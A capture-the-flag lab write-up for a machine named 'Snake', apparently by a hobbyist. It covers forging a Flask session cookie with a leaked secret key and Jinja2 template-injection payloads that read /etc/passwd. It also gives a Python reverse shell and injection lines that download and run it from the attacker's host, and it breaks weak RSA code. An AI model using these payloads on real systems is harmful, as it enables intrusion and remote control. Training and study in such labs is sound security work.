# Snake

__MACHINE IP__: 10.1.1.45

__DATE__: 15/10/2019

__START TIME__: 7:40 PM


## NMAP



As always I started my enumeration with the HTTP service.

## HTTP

On port 80 I found the default Ubuntu page and gobuster also didn't find anything.
On port `5001` there was a website for so called `jarvis Distilling Co.`



I tried using dirsearch or gobuster on this port but it didn't worked so I decided to use `wfuzz`.



The first thing I decided to checkout was the `backup`. It was just a file with the following code in it:

```python
from web import *

if __name__ == '__main__':
    app.secret_key = 'e0e91c3ea5a33f879ab5afbbe1f93505'
    app.run(host="0.0.0.0", port=5001, threaded = True)
```

So I think the whole point of this is to provide the us with that `secret_key`
The `/admin` was actually a redirect to `/login`. And on that page I found a simple login form.



In the source of that page I found the credential that were to be used for login.



```html
<!--
user: admin
password: q1w2e3r4t5
-->
```
After I logged in I got a simple `ascii art` and nothing else.


I couldn't find a way in so I decided to ask for help and @badhackjob helped me, he told me I need to access `/admin`.

I tried visiting that but I was being redirected to `/login`. After reading a bit I found out that to be able to open `/admin` I would have to use `cookie`.

So to get my hand on the exisiting cookie I decided to login with wrong credentials.



```
Cookie: session=eyJhZG1pbiI6ZmFsc2UsImlkIjoyfQ.EI8-PQ.0EuexTqKVU7cTOY6GI8ukU5x14E
```

Then I used a tool called `flask-unsign` to generate a new cookie.

```bash
➜ flask-unsign --sign --cookie "{'admin': True, 'id': 1}" --secret "'e0e91c3ea5a33f879ab5afbbe1f93505'"
```



After that I tried visiting `/admin` page and I was able to open it without any redirection.


Now we can see that there's a big input field. I tried various thing in it but nothing worked, then I realized that this was a flask app so maybe it was vulnerable to SSTI.

I tested it with `{{config}}` and to my surprise it was vulnerable to it.

```bash
➜ curl -s 'http://10.1.1.45:5001/admin' -H 'Cookie: session=eyJhZG1pbiI6dHJ1ZSwiaWQiOjF9.EJCQbQ.i_HpmnQsI3s1GKVuCw22VVypRTQ' --data 'html=%7B%7Bconfig%7D%7D' | pup 'div'
```



With

```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
```
I was able to read `/etc/passwd` file



## Reverse shell & user pwn

After trying lots of things I was able to upload a python reverse shell and then execute it. Do the following to get a reverse shell:

1) Make a file having a reverse shell code

```python
import socket,subprocess,os
import pty
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.254.0.10",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/bash")
```

__NOTE__: Change the IP and port in this

2) Host this file using `python3 -m http.server`
3) Execute the following command in the HTTP form

```bash
{{x()._module.__builtins__['__import__']('os').popen("wget http://10.254.0.10:8000/rev.py -O /tmp/rev.py").read().zfill(417)}}
```

Then

```bash
{{x()._module.__builtins__['__import__']('os').popen("python /tmp/rev.py").read().zfill(417)}}
```

__NOTE__: Thanks to @badhackjob for helping with payload.

This would give you reverse shell.



after that I found out that there was a fake `user.txt` in `/home/tony`. I decided to check `tony` sudo right and found out that he can run `/usr/bin/getme` as `r4j`(the other user on the system)


I ran `getme --help` to see what that binary does and got large number as output



So I decided to run `cat getme` just to see what it was doing and I got a python code in return.



```python
#!/usr/bin/python
# I hope this gets you annoyed :)
from Crypto.PublicKey import RSA
from Crypto.Util.number import *
from os import system, urandom
from hashlib import md5
from gmpy import next_prime

secret = md5(urandom(100)).hexdigest()
secret1 = bytes_to_long(secret[:16])
secret2 = bytes_to_long(secret[16:])

e = 65537
p = getPrime(512)
q1 = getPrime(512)
n1 = p*q1
crypted1 = pow(secret1, e, n1)
print n1, crypted1

q2 = getPrime(512)
n2 = p*q2
crypted2 = pow(secret2, e, n2)
print n2, crypted2

print "Can You Help Me Find The Secret Please?"
s = raw_input("secret: ")
if s == secret:
        print "Thank you for telling me the secret :)"
else:
        print "I think that was wrong"
        exit()

print "I wanna know more secrets, will you tell me?"
p = getPrime(512)
q = next_prime(7*p)
n = p*q
secret = md5(urandom(100)).hexdigest()
print ""
print n
m = bytes_to_long(secret)
c = pow(m,e,n)
print ""
print c

i = raw_input("> ")
if i == secret:
        system("/bin/bash")
```

Now if we look at the code we can see that it's using [RSA crypto system](https://en.wikipedia.org/wiki/RSA_(cryptosystem)). First I thought that I need to use chinese remainder theorem since there were multiple `n` and `c` but that was not the case. We need to figure out the implementation error in the code and then exploit that to find out the secret.

There are 2 parts let's call them `secret1` and `secret2`. For `secret1` we get 2 values of `modulus`(n1 & n2) and 2 `encrypted messages`(c1 & c2). Now finding secret1 is easy cause it involves very less mathematics. If we look at how `n1` and `n2` is found out

```
n1 = p*q1
n2 = p*q2
```

The common thing in this is that they use the same `p` now if we can find the `gcd` of these two numbers i.e of n1 and n2 we can find `p` and that will give us the `q1 & q2` because of the formula `n = p*q`. After that we can just find the `phi` using `egcd` and then use that `phi` to find `d`(private key) and then get the decrypted message (basic RSA).

For `secret2` we get two values, one of them is `modulus`(n) and one is `encrypted message`(c). This one is bit complicated. `p` is taken randomly then `q` is found by multiplying p with 7 and then finding the next prime of that value. The problem here is that in simpler math this is nothing but `n = p*(p*7+x)` where `x` could be any small number that could be ignore since `n & p` are very large here but we still need to find the exact `p` to crack the encrypted message.

To exploit that we can just divide n by 2 and take it as current p and then using `q = next_prime(7*p)` find the q. Then we do p*q and if we get the value to be equivalent to n that means it's the right p and q and we can move on decrypting the crypted message

__NOTE__: To properly understand this you should know a bit of how RSA crypto system works. Also the second part is kind of weird but if you go through the code present in attack.py , function secret2() you could understand what is going on. Also a huge thanks to @badhackjob for helping me with this.




## Privilege escalation

In r4j home directory I found a folder name `.secret` that had s executeable named `something`. All it did was echoed your name


